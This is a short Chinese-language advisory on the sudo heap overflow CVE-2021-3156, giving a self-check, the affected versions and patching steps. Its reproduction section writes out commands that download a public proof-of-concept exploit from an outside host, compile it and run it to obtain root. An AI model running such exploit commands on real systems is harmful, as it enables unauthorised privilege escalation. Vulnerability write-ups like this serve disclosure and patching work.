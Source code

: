 # 漏洞概述

攻击者在**取得服务器基础权限的情况下**，可以利用sudo基于堆的缓冲区溢出漏洞，获得root权限。

用户可以使用如下方法进行自查：

以非root用户登录系统，并使用命令`sudoedit -s /`

- 如果响应一个以`sudoedit:`开头的报错，那么表明存在漏洞。

- 如果响应一个以`usage:`开头的报错，那么表明补丁已经生效。

### 影响版本

```plain
sudo: 1.8.2 - 1.8.31p2
sudo: 1.9.0 - 1.9.5p1
```
### 漏洞等级

高危

# 漏洞复现

在kali上进行测试：

```plain
wget https://haxx.in/CVE-2021-3156_nss_poc_ubuntu.tar.gz
cd CVE-2021-3156
make
./sudo-hax-me-a-sandwich <target_number>
```
![图片](https://uploader.shimo.im/f/oHFId7AExztom9Nd.png!thumbnail?fileGuid=tPPyWPqkWCCyhCHj)

![图片](https://uploader.shimo.im/f/dDdhTsBixIVQIHjo.png!thumbnail?fileGuid=tPPyWPqkWCCyhCHj)




# 修复建议

1. 针对Ubuntu
```plain
wget https://www.sudo.ws/dist/sudo-1.9.5p2.tar.gz
```
2. centos下
```plain
sudo yum -y update sudo
```



